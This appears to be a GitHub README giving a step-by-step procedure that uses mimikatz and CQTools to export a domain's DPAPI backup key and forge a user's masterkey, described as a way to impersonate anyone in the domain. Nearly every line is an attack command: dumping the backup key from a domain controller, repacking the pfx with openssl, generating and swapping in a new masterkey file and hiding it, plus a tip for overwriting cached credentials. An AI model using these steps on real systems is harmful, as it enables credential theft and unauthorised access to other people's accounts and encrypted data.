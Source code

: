 ## Exporting DPAPI Domain Backup Key with mimikatz, and explaining how to recreate a user's masterkey (AKA Impersonate ANYONE within the domain)

### Tools: Mimikatz, CQTools https://github.com/BlackDiverX/cqtools

### Requirements: System level access on the host

### Steps:

#### 1) mimikatz.exe 

#### 2) lsadump::backupkeys /system:localhost /export (Dump the DPAPI Domain Backup Key from DC)

#### 3) Transfer the .pfx container, as well as some of the CQtools (CQDPAPIBlobSearcher.exe and CQMasterKeyAD.exe to target machine of your choice)

#### 4) CQDPAPIBlobSearcher.exe /d c:\users\USER\AppData\Roaming /r /o c:users\USER\Desktop\blob (Finds the Masterkey, which shown as mkguid on results)

#### 5) Attacking machine: openssl pkcs12 -in DMK.pfx -out temp.pem -nodes (Password is mimikatz because it was extracted with mimikatz from DC)

#### 6) Attacking machine: openssl pkcs12 -export -out DMK.pfx -in temp.pem (Use cqure as passphrase. We repacked the pfx using "cqure" as passphrase to make the cqtool work or else it will fail)

#### 7) CQMasterKeyAD.exe /file "c:\users\USER\appdata\roaming\microsoft\protect\USER_SID\MASTERKEY" /pfx DMK.pfx /newhash NTLM_HASH_OF_USER

#### 8) ren OLD_MASTERKEY_FILE WHATEVER

#### 9) ren NEW_MASTERKEY_FILE OLD_MASTERKEY_FILE

#### 10) attrib "c:\users\USER\appdata\roaming\microsoft\protect\USER_SID\MASTERKEY" +S +H (Shuffle the old and new masterkey files, then give the same attributes to the newly created masterkey file as the old one)

#### 11) VOILA!

## TIP: In case we cannot crack the NTLM password of a user, we can simply create a new password with mimikatz: lsadump::cache /user:USER /password:NEW_PASSWORD /kiwi
